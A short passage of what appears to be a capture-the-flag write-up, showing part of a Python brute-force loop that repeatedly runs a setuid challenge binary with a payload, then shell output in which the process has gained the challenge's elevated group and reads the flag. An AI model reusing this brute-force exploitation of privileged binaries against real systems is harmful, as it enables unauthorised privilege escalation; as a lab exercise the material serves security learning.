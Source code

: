 while (1):
    result = subprocess.call(["/challenges/robot_cop/Robot_cOP", payload])
    if not result:
        print "Done"
        exit(0)
    else:
        print "KO\n"</code></pre>
And we test:<pre><code class="bash">$ python /tmp/brute.py
KO

KO

KO
...

$ id
uid=1334(dagger) gid=1334(dagger) euid=1310(robot_cop-solved) egid=1305(robot_cop) groups=1305(robot_cop),1002(tocttou),1306(2befree),1307(basic_rop),1311(botoxedstring),1312(fakemalware-killswitch),1334(dagger)
$ cat flag
flag{0r5t7hvR4dfTyhj67yKLO}</code></pre>
Done.
